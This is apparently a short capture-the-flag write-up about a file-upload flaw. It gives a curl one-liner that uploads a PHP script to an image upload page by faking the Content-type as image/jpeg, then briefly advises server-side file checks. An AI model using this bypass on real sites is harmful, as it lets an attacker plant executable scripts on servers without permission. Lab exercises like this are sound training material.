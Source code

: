 # File upload type exploit

## Exploit
On the image upload page `${URL}?page=upload` we can supposedly upload an image file, let's try uploading a php script and faking the `Content-type` header instead:
```shell
echo '<?php echo "hello world"?>' | curl -s -X POST -F "Upload=Upload" -F "uploaded=@-;filename=42.php;type=image/jpeg" "${URL}?page=upload" | grep flag
```

## Fix
Never trust user input, the file verification should be done server-side instead of only with `content-type`. There is no easy and perfect fix here.
